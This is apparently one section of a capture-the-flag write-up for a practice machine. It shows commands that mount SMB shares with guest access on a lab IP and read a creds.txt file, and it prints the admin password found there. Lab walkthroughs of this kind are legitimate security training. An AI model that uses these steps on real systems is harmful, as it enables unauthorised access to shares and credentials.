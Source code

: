 # 15 - SMB

![](vx_images/666293499449.png)

We have write permissions on Development and we can guess from the comment of `Files` that Development share is most likely at /etc/Development

# Mount the shares

```bash
┌─[user@parrot]─[10.10.14.9]─[/mnt/friendzone]
└──╼ $ sudo mount -t cifs -o guest //10.10.10.123/general /mnt/friendzone/general/
┌─[user@parrot]─[10.10.14.9]─[/mnt/friendzone]
└──╼ $ sudo mount -t cifs -o guest //10.10.10.123/Development /mnt/friendzone/Development/
```

# creds.txt

```bash
┌─[user@parrot]─[10.10.14.9]─[/mnt/friendzone]
└──╼ $ ls
Development  general
┌─[user@parrot]─[10.10.14.9]─[/mnt/friendzone]
└──╼ $ find .
.
./Development
./general
./general/creds.txt
┌─[user@parrot]─[10.10.14.9]─[/mnt/friendzone]
└──╼ $ cat general/creds.txt 
creds for the admin THING:

admin:WORKWORKHhallelujah@#

```

